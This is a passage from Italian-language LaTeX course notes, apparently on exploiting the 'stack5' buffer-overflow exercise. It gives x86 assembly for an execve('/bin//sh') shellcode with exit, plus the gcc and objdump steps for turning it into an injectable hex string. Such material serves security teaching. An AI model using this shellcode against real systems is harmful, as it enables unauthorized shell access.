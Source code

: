 Il registro EAX viene incrementato di 1 (è la stessa cosa di aggiungere 1 a EAX).

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.10.png}
\end{figure}
\FloatBarrier

Tramite interruzione software 128, il controllo è trasferito al kernel che esegue la chiamata di sistema relativa al contenuto di EAX (1 corrisponde a \texttt{exit()}). Vediamo il nostro codice completo:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
xor   %eax,%eax
push  %eax
push  $0x68732f2f
push  $0x6e69622f
mov   %esp,%ebx
mov   %eax,%ecx
mov   %eax,%edx
mov   $0xb,%al
int   $0x80
xor   %eax,%eax
inc   %eax
int   $0x80
\end{lstlisting}
\end{mdframed}

Lo shellcode va tradotto in una stringa di caratteri esadecimali e fornito in input a \texttt{stack5}. I passi per la traduzione sono:
\begin{itemize}
    \item creiamo il file \texttt{shellcode.s} contenente lo shellcode in assembly
    \item compiliamo \texttt{shellcode.s} ottenendo il file oggetto \texttt{shellcode.o}
    \item disassembliamo \texttt{shellcode.o} per ottenere le istruzioni codificate in esadecimale
    \item codifichiamo le istruzioni ottenute in una stringa
\end{itemize}
Per compilare il programma assembly in codice macchina, compiliamo a 32 bit (\texttt{-m32}) senza generare un file eseguibile (\texttt{-c}):
\begin{center}
    \texttt{gcc -m32 -c shellcode.s -o shellcode.o}
\end{center}
Utilizziamo \texttt{objdump} per disassemblare \texttt{shellcode.o}, per ottenere le istruzioni codificate in esadecimale:

